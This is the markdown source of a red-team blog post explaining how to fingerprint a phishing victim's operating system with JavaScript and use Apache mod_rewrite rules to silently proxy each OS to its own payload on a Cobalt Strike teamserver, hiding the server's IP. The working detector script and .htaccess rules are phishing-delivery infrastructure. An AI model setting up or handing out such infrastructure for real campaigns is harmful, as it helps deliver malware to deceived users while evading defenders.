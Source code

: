 ```yaml
---
layout: post
title: Operating System Based Redirection with Apache mod_rewrite
summary: Redirect your phishing victims to different payloads or sites based on their operating system.
image: /assets/apache/os-detection-demo.gif
tags: 
- mod_rewrite
- phishing
- red team infrastructure
commentIssueId: 9
---
```


At times you may find yourself testing an environment comprised of a fair mix of operating systems. Maybe the marketing department is half Windows and half Mac OS X. In these cases, it may not be feasible to determine users' operating systems via a preliminary phish.

OS detection is nothing new. The goal of this method is to allow us to perform detection and proxying in one place while looking as legitimate as possible to the phish victim. No URL changing, no excessive page reloads and refreshes. This detection method is similar to my [previous post]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/) about redirecting mobile users; however, leveraging JavaScript provides a more reliable method of operating system detection.


![OS Detection Demo](/assets/apache/os-detection-demo.gif)

{:#os-detector-page}

# OS Detector Page

The HTML code below (based on OS detection code from [javascripter.net](http://www.javascripter.net/faq/operatin.htm)) uses JavaScript to detect the user's OS and appends a URL parameter (*os_id*) to the end of the request. If the user's OS doesn't match Windows, Mac OS X, Unix, or Linux, *unknown* will be assigned to the *os_id*.

The HTML only needs to be modified if you are using the parameter *os_id* in one of the payloads or if you opt to add more granular detection, such as by OS version. The HTML file should be hosted on a Cobalt Strike teamserver or other pivoting server, such as a redirector.

```html
<html><head></head>
<body>

<script>
var url_base='http://'+window.location.host;
var OSName="unknown";
var query_string=document.location.search;
var request_path=window.location.pathname.substr(1);
if (navigator.appVersion.indexOf("Win")!=-1) OSName="windows";
if (navigator.appVersion.indexOf("Mac")!=-1) OSName="mac";
if (navigator.appVersion.indexOf("X11")!=-1) OSName="unix";
if (navigator.appVersion.indexOf("Linux")!=-1) OSName="linux";

var os_string='&os_id='+OSName;
if (query_string == '') os_string='?os_id='+OSName;
if (query_string.indexOf("os_id=")!=-1) os_string='';

window.location.replace(url_base+'/'+request_path+query_string+os_string);

</script>

</body></html>
```

{:#mod_rewrite-rules}

# mod_rewrite Rules

The following ruleset should be placed in a *.htaccess* file on your Apache redirector. Replace the *TEAMSERVER-IP* and OS payload placeholders with the IP and paths that correspond to your infrastructure for the campaign. The *OS-DETECTOR* placeholder should be replaced by the path of the above HTML file on your teamserver.

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=mac</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/MAC-OS-X-PAYLOAD</span> <span style="color: tomato">[P]</span><br>

RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=windows</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/WINDOWS-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=unix</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/UNIX-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=linux</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/LINUX-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteCond <span style="color: dodgerblue">%{QUERY_STRING}</span> <span style="color: mediumseagreen">os_id=unknown</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/UNKNOWN-OS-PAYLOAD</span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^(.*)$</span> <span style="color: orange">http://TEAMSERVER-WAN-IP/OS-DETECTOR.HTML</span> <span style="color: tomato">[P]</span><br>
</div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'mac':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'MAC-OS-X-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'windows':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'WINDOWS-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'unix':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'UNIX-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'linux':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'LINUX-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
<span style="color: dodgerblue">Otherwise, if the request's query string</span> <span style="color: mediumseagreen">contains an 'os_id' parameter with a value of 'unknown':</span><br>
<span style="color: gold">Change the entire request</span> <span style="color: orange">to serve 'UNKNOWN-OS-PAYLOAD' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If none of the above conditions are met, <span style="color: gold">change the entire request</span> <span style="color: orange">to serve 'OS-DETECTOR.HTML' from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
</div>


In short, the ruleset checks requests for each of the OS parameters and proxies requests to the the designated payload path. The user's address bar will still read the path to they entered or clicked to get to the OS detector. As it's written, the ruleset redirects any request received to the *.htaccess* file's directory and any subdirectory to the OS detector page. If you would like to selectively redirect to that file, you can add a RewriteCond line above and catch-all RewriteRule line on the last line. See my previous mod_rewrite post about [invalid uri redirection]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite) of for a more specific example.

{:#expanding-capabilities}

# Expanding Capabilities

Since the detection is simply using JavaScript to fingerprint the end-user's host and using mod_rewrite to determine the correct page to serve, one could easily expand the script to serve payloads based upon any number of criteria. For instance, the script above doesn't detect specific versions of operating systems. If that level of granularity is required, consider using the user agent to perform detection. 

An example would be to change the conditional statement in the HTML page from:

```javascript
navigator.appVersion.indexOf("Win")!=-1
```

to

```javascript
navigator.userAgent.indexOf("Windows NT 6.1")!=-1
```

The second conditional line checks for Windows 7 rather than just Windows. User agents can be spoofed or removed, so be it's a good idea to build in a backup detection method if you aren't sure the user agents will be in tact.

{:#summary}

# Summary

Operating system detection enables phishing campaigns to serve payloads based upon maximum impact per host type, rather than broadest applicability. This allows you to tailor not only the infection vector, such as Java vs. HTA, but also the post-exploit toolset, such as Cobalt Strike vs. Metasploit, based upon the likelihood of success. This capability can be extended even further to serve up specific operating system or application versions. 


# Strengthen Your Phishing with Apache mod_rewrite Posts

* [Strengthen Your Phishing with Apache mod_rewrite and Mobile User Redirection]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/)
* [Invalid URI Redirection]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite/)
* Operating System Based Redirection with Apache mod_rewrite
* [Combatting Incident Responders with Apache mod_rewrite]({{site.baseurl}}/2016-04-12-combatting-incident-responders-with-apache-mod_rewrite/)
* [Expire Phishing Links with Apache RewriteMap]({{site.baseurl}}/2016-04-19-expire-phishing-links-with-apache-rewritemap/)


{:#resources}

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)